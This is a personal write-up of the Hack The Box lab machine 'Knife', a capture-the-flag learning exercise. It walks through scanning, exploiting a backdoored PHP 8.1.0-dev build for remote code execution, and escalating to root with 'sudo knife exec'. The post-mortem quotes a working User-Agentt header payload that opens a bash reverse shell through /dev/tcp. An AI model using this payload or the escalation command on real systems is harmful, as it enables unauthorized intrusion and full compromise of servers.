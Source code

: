 ```yaml
---
title: "Knife HTB"
date: 2021-07-28T17:30:30
categories:
  - writeup
tags:
  - Linux
  - HacktheBox
  - Backdoor
  - GTFOBin
  - PHP
classes: wide
---
```

Knife was at the time of this writeup's completion an active box, meaning it is the first I managed to do without any write up help. It required a LOT of googling, but was overall not too hard. The basic flow of scan, google, foothold, `sudo -l` came through. I just needed to not make some silly mistakes and the whole process could have been less painful. There is a Post Mortem at the bottom containing of my thoughts when revisiting this box now it has retired. The main body of the writeup contains my thoughts at the time of completing the box.

<h2>Enumeration</h2>
**Nmap scan results:**

```
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<h4>What is the scan telling us?</h4>

- Port 22 is open and running the usual ssh, specifically OpenSSH 8.2p1. Which seems to have some man in the middle(MitM) attack routes, but nothing suitable for this box. 
- Port 80 is showing Apache 2.4.41 which seems to have some vulns that can cause it to crash, but not much else. 
- Box is running on Ubuntu Linux which we knew already.

**Gobuster:**

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/index.php (Status: 200)
/icons (Status: 200)
/icons/small (Status: 200)
```

**Nikto:**

```
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7863 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-07-28 13:04:33 (GMT-4) (210 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Navigating to the website we see a fancy looking Emergency medical site, but no obvious avenues of attack.

<h2>Foothold</h2>

After searching for hours about possible OpenSSH 8.2.p1 Ubuntu, 4ubuntu0.2, and Apache 2.4.41 CVE's. A closer look at Nikto holds the answer.
Nikto reveals that the Apache header shows that the PHP version is 8.1.0-dev. Googling this reveals an exploit on exploitdb: [EDB-ID:49933](https://www.exploit-db.com/exploits/49933). Which allows RCE through a backdoor added through a compromised git.php.net server. 

We download the python script from the exploitdb page and run it with python3. This gives us a shell as "james" and we find the user flag in their home directory.


<h2>Privilege Escalation</h2>

After obtaining the user flag, running `sudo` -l shows that james can run:

```bash
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Googling this binary shows that "knife" is a part of a automation platform called "chef". Reading the [website](https://docs.chef.io/workstation/knife/) we see:

> *"The Chef Workstation includes other command line tools for interacting with Chef Infra. These include knife for interacting with the Chef Infra Server, and chef for interacting with your local chef code repository (chef-repo)."*

Reading the website we see a list of subcommands, including knife exec. This shows that knife can execute ruby commands. Further details can be seen from [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) which shows that `knife exec -E 'exec "/bin/sh"'` will run a ruby script to execute /bin/sh and obtain us root shell.
Attempting to run `sudo knife exec -E 'exec "bin/sh"'` leads to an error. 

After a large amount of trial and error it turns out the command is returning error because the shell from the previous script is not a TTY shell. Attempts to upgrade this shell lead to a non-responsive shell, a proper php reverse shell usually has no problems being upgraded. Maybe there is a method to upgrade the other one I'm not sure about, maybe by backgrounding it? 
More googling shows that a [script for reverse shell](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) has already been written by the same exploitdb author. 

We download the script, enter the parameters it requests in the format we request, open an nc listener, and run the script. We catch a tty shell! Now with our better shell, running the `sudo knife exec -E 'exec "/bin/sh"'` command gives us a root shell.
Navigating to the root folder we find root.txt and inside it... the root flag!
 
<h4>For next time:</h4>

- More careful attention to enumeration would have saved a lot of time. Searchsploit everything!
- Make sure that you have full TeleTYpewriter(tty) shell. I couldn't execute the knife privesc command because I hadn't upgraded the shell. 

---

<h2> Post Mortem</h2>
Now that the box has retired I am revisiting this writeup to add some study notes.

Actually reading the exploit I used at the time I find a lot of useful information. 
From the words of the [blog](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) written by flast101:

>*"taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with ‘zerodium’.
Zerodium is a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself."*

Reading this it seems I could have gotten RCE manually by adding a system reverse shell one liner to the User-Agent after "zerodium" in Burp Suite. This would have avoided the issues I had with trying to run the GTFOBins priv esc of `knife exec -E`. For the script to execute User-Agent must have two t's and the script must be after zerodium.
Ippsec shows this one line would look like: 

```
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'")
```

Overall not too hard of a box, and was such a great feeling completing my first active box. 